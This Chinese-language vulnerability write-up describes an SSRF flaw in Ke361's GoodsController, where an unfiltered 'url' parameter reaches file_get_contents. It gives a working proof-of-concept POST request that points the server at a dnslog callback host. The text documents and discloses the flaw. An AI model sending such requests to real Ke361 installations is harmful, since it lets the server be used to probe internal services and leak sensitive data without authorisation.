 # Ke361 GoodsController.class.php SSRF漏洞

## 漏洞描述

Ke361 GoodsController.class.php URL参数存在 SSRF漏洞，通过漏洞可以获取敏感信息

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 `Application/Home/Controller/GoodsController.class.php`

![image-20220518153445715](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181534788.png)

URL参数无任何过滤，传入 file_get_contents函数，造成SSRF漏洞，构造请求

```
POST /index.php?s=/Goods/ajGetGoodsDetial
 
url=http://6si2gt.dnslog.cn
```

![image-20220518153459466](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181534535.png)

dnslog接收到请求

![image-20220518153527567](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181535619.png)